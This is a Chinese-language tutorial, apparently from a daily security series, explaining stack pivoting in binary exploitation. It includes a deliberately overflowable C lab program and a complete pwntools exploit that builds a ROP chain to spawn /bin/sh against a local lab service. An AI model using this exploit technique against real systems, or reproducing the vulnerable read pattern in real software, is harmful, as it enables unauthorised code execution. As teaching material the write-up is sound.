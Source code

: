```yaml
---
title: "Day18－Stack Pivoting"
date: 2024-09-18
draft: false
tags: ["iron-man-2024", "pwn", "binary-exploitation"]
categories: ["security-research"]
author: "YJK"
showToc: true
TocOpen: false
---
```



## [Lab 網址](https://github.com/YJK0805/PWN-CTF-note/)

## 前言

如果我們沒有辦法有足夠的長度或方法 leak libc 或是構建 ROP chain，還有什麼攻擊方式嗎？其實有的，就是將 stack 直接移到其他區塊並執行事先寫在指定區域的 chain。將 stack 遷移到其他地方的方式就叫做 Stack Pivoting 或 Stack Migration。

## Stack Pivoting

Stack Pivoting 是將 ROP chain 分次寫在指定區域，最後將 stack 遷移過去執行。Stack 由 `rsp` 控制，因此我們需要控制 `rsp`，主要利用以下的關鍵指令：

- leave ; ret

實際執行了以下兩個動作：

- leave -> mov rsp , rbp ; pop rbp ;
- ret -> pop rip;

由於在每次的 buffer overflow 中，`rbp` 是可以控制的，所以我們可以利用 `rbp` 加上這個指令來控制 `rsp`。這些 gadgets 在程式中幾乎都可以找到，因為它們通常用於 function 結束時恢復上一個 function 的 stack frame。

### 範例

以下範例展示如何將 `rsp` 遷移到另一個區塊：

原本的 `rbp` 是 `0x7ffe65dea290`，`rsp` 是 `0x7ffe65dea280`。經過 `leave` 後，`rbp` 被換成我們填入的 `save rbp` 位置，`rsp` 變為 `rbp + 0x8`。再透過一次 `leave`，`rsp` 就會進一步改變。

如此一來，我們就可以控制執行流程，並且可以通過不斷遷移 stack 來達成任意的 ROP。

![image](https://hackmd.io/_uploads/r1iGJiKAR.png)

![image](https://hackmd.io/_uploads/Skg7kotAR.png)

![image](https://hackmd.io/_uploads/B1_wmoYA0.png)

![image](https://hackmd.io/_uploads/ByTv7iYCA.png)

## Lab

查看以下原始碼：

```c=
#include<stdio.h>
#include<stdlib.h>

char name[0x100];

int main(){
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    char message[0x10];
    puts("Welcome to challenge!");
    puts("What's your name?");
    read(0, name, 0x100);
    puts("Leave a message: ");
    read(0, message, 0x20);
    return 0;
}
```

使用以下指令進行編譯：

```sh=
gcc src/stack_pivoting.c  -o ./stack_pivoting/share/stack_pivoting -fno-stack-protector -no-pie -static
```

## writeup

可以發現有一個全域變數 `name` 可以寫入內容，還有一個 `message` 可以輸入並且存在 buffer overflow 的風險。我們可以確認是否能覆蓋 return address。

在輸入是從 `rbp - 0x10` 輸入 0x20，因此可以 overflow 的空間為 0x20 - 0x10 = 0x10，剛好可以覆蓋 return address。

![image](https://hackmd.io/_uploads/rkbt72YAR.png)

因為編譯參數使用了 `-static`，我們可以利用許多 gadgets 來進行 ROP。不能直接透過 return address 進行 ROP，但可以將 ROP chain 寫在 `name` 中，透過 stack pivoting 將程式流程轉移到 `name`，進而執行 ROP。

確認 `name` 的位置：

![image](https://hackmd.io/_uploads/BkD9_hKC0.png)

接下來可以參考[Day12－Basic ROP](https://ithelp.ithome.com.tw/articles/10358514)

要注意，name 要填入最後將 rsp 遷移過去會改的 padding，還有要注意 return address 的部分要填上 leave ; ret，並且加上原先就存在 main function 最後的 leave ; ret，即可改變 rsp

完整 exploit：

```py=
from pwn import *

context.arch = 'amd64'

# r = process('../stack_pivoting/share/stack_pivoting')
r = remote('127.0.0.1', 10009)

rop = flat(
    0x00000000004048f4, # pop rsi ; ret
    0x49c230, # writable address
    0x0000000000417807, # pop rax ; ret
    b'/bin/sh\x00',
    0x0000000000418f31, # mov qword ptr [rsi], rax ; ret
    0x0000000000417807, # pop rax ; ret
    0x3b, # execve
    0x0000000000402008, # pop rdi ; ret
    0x49c230, # writable address
    0x00000000004048f4, # pop rsi ; ret
    0x0, # NULL
    0x00000000004563b7, # pop rdx ; pop rbx ; ret
    0x0, # NULL
    0x0, # NULL
    0x0000000000401291, # syscall
)
payload = b'A' * 0x8 + rop
r.sendlineafter(b"What's your name?\n",payload)
name = 0x000000000049db40
leave_ret = 0x0000000000401852
pivoting = b'A' * 0x10 + p64(name) + p64(leave_ret)
r.sendlineafter(b"Leave a message: \n",pivoting)
r.interactive()
```

solve!!!

![image](https://hackmd.io/_uploads/HJaJq2YRR.png)
